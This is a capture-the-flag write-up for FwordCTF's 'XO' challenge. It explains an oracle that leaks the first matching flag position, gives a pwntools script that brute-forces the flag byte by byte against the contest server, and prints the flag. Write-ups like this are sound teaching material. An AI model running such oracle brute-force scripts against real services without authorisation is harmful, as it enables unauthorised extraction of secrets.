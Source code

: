 # XO

Whatever we input, the binary searches for characters in our input that are the same as a character of the flag in the same position. It prints the number of characters before the first occurrence of this. For example, if the flag was FwordCTF{}, then...

Fgjehrfd -> 0

sws -> 1

gggg -> 4

Using this, we can run a simple byte by byte bruteforce in order to get the data in flag.txt -  NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}

Adding the flag format, we get the flag, FwordCTF{NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}

I used backticks for padding since they were pretty much guaranteed not to be in the flag - we can send backtick_padding + char and bruteforce "char" until the number returned equals the number of backticks, the character of the flag in that position would be the char where the server returned number is equal to the number of backticks.

#### Flag: FwordCTF{NuL1_Byt35?15_IT_the_END?Why_i_c4nT_h4ndl3_That!}
```py
from pwn import *
import time
printable = "?_qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890!@#$%^&*(){},./<~\\"
host = ('xo.fword.wtf', 5554)
def getnum(string):
    while True:
        try:
            p = remote(*host)
            break
        except socket.gaierror:
            time.sleep(1)
    #p = process("./task")
    p.recvline()
    p.sendline(string)
    ans = int(p.recvline())
    p.close()
    return ans
flag = ''
i = len(flag)
while '}' not in flag:
    pad = '`'*i 
    for char in printable:
        totry = pad + char
        print(totry)
        if getnum(totry) == i:
            flag += char
            print(f"Flag: {flag}")
            break
    else:
        print(flag)
        quit()
    i += 1
    ```
